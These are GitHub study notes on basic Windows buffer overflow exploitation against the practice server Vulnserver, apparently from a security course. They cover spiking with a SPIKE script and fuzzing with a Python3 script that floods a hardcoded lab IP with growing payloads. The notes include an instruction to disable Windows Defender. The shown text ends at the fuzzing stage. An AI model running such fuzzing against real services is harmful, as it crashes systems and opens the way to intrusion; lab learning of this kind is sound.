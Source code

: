 # Buffer Overflow (Basic)

**[Back To Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**

⚠️ **IMPORTANT NOTE:** This is not a tutorial write-up on how to use the different tools you'll need to accomplish  a **BOF** and on how to use the needed tools like the ***Immunity Debugger*** and the alikes. These are quick notes to be able to have a quick recap if you get stuck or just want to refresh your Buffer Owerflow knowledge. 

For the full tutorial and lectures on BOF it is highly recommended to take the **PEH** course from **[TCM-SECURITY](https://academy.tcm-sec.com/)**.

## Things you'll need

* **You can find all the necesarry files in the `scripts` folder.**
* need a Windows machine on a VM (get it for free from Google: Microsoft Evaluation Center)
* download and install **Immunity Debugger** (goes on the Win machine): **[Download Link](https://debugger.immunityinc.com/ID_register.py)** and here's the **[Main Website](https://www.immunityinc.com/products/debugger/)**
* download from Github: **[mona](https://github.com/corelan/mona)** and put it in the 
* kali of course
* scripts from the **`./scripts`** folder

## Quick Visual Recap

* In the Stack we are overflowing the buffer space to reach the **EIP**
* We can use the **EIP** to point into directions that we instruct

![1-anathomy-of-the-memory](images/1-anatomy_of_the_memory.png)
![2-anatomy_of_the_stack](images/2-anatomy_of_the_stack.png)
![3-overflow](images/3-overflow.png)

## Steps Involved

1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Generating Shellcode 
7. Root

## Spiking

* disable Windows Defender overall (Real Time Protection OFF)
* We need to run Immunity Debugger as Admin
* Run your vulnerable server as Admin as well (You can get one from Vulnserver if needed) I'll use **Vulnserver** as an example from now on.
* let's connect to our server from kali: `nc <vulnserver's IP> <PORT>`
* Spike will help to find which command is vulnerable
* If we can overflow it and it crashes it's vulnerable
* We'll need to use `generic_send_tcp` from kali and our spike script

### Spike Script Example: stats.spk using the ***STATS*** command

```
$_readline();
$_string("STATS ");
$_string_variable("0");
```

* we will update this script for all the different commands that we had acces to when connecting to Vulnserver with nc
* whichever crashes we'll focus on that command
* **in these notes we'll assume that we found the TRUN command and it's vulnerable**
* when TRUN spike crashes the servers make sure you check out how the server recieved the command and use it like that in your python script that will come into play later on. In this example it was: `TRUN /.:/`
* **EBP shows 41414141 which is hex for A**

![4-trun-crashes](images/4-trun-crashes.png)

## Fuzzing

* it's like spiking but now that we now which command is vulnerable we're going to attack that specific command
* if you crashed it attach Vulnserver back and restart the service (little play button)

### fuzzing.py

* ⚠️ This script is a bit different from what was shown during the course, but it's more up to date and is for Python3

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.239.130"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
